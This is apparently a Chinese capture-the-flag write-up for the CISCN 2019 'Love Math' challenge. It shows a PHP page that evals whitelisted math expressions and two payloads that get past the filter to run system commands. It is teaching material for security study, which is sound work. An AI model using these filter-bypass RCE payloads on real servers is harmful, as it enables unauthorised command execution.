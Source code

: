 # \[CISCN 2019 初赛]Love Math

## \[CISCN 2019 初赛]Love Math

## 考点

* 根据白名单构造RCE字符串
* 类似于无字符RCE的构造思路

## wp

给了源码，只能使用白名单里面的函数

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 
```

已知条件:

1. 传入的参数 c 进入 eval 函数中执行
2. c 的长度小于 80
3. c 中不含有黑名单中的字符
4. c 中的字符串必须在白名单中
5. 可以执行的函数只有白名单中的

思路:

1. 使用白名单里的字符构造 RCE 函数
2. 构造出 `$_GET/$_POST`传参，防止 c 长度过长
3. `!@#$%^&*()-+.{}|`等未被过滤
4. 这里在 url 栏输入 +\&# 是会被浏览器分别解析为空格，参数连接符，锚点，应使用URL编码后传入

### 第一种方法

通过进制转换来构造，16进制包含`0-9a-f`，没有包含所有字符，很难利用，但是36进制包含`0-9a-z`

例如，`hex2bin("5f474554")` 就是 `_GET`

![](<../.gitbook/assets/image (3) (1).png>)

![](<../.gitbook/assets/image (32) (1) (1).png>)

最后就构造出来了构造出来了 `_GET`，是`base_convert(37907361743,10,36)(dechex(1598506324));`

在获取 GET/POST 的参数时，可以使用 `$_GET["a"]` 但是还有另外一种用法，使用$\_GET{a}。另外，PHP不加引号的内容，默认作为字符串处理，会抛出警告。

如此，把`base_convert(37907361743,10,36)(dechex(1598506324))`赋值给`pi`，在使用$pi，就可以获得`$_GET`，再进行传参就可以了，即如下

```php
<?php
$pi=base_convert(37907361743,10,36)(dechex(1598506324)); // _GET
($$pi){pow}($$pi{abs}); // $_GET["pow"]($_GET["abs"])
```

payload

```
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pow}($$pi{abs})&pow=system&abs=cat flag.php
```

### 第二种方法

通过异或来构造，在 php 中可以对字符串进行异或，其原理就是对字符串中每个字符对应的 ASCII 值进行异或，这就要通过爆破来进行了

```php
<?php
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
foreach($whitelist as $w){
    for($a=1;$a<999999;$a++){
        $res = $w ^ decoct($a);
        if(strpos($res,"_POST")===0){
            echo $w.'   '.$a.'   ';
            echo $res;
            echo "\n";
        }
    }
}
```

![](<../.gitbook/assets/image (19) (1) (1) (1) (1).png>)

最终 payload: `?c=$pi=${(hexdec^decoct(31737))};$pi{pow}($pi{abs});`
